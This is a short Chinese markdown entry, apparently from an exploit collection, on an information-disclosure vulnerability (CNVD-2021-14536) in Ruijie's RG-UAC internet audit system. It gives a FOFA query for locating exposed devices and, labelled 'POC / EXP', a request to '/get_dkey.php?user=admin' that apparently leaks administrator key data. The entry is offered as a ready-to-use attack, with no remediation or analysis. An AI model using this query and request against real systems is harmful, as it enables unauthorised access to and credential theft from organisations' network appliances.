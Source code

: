 # 锐捷 RG-UAC统一上网行为管理审计系统 信息泄露漏洞 CNVD-2021-14536

## 网络测绘

fofa: title="RG-UAC登录页面"

## POC / EXP

```
/get_dkey.php?user=admin
```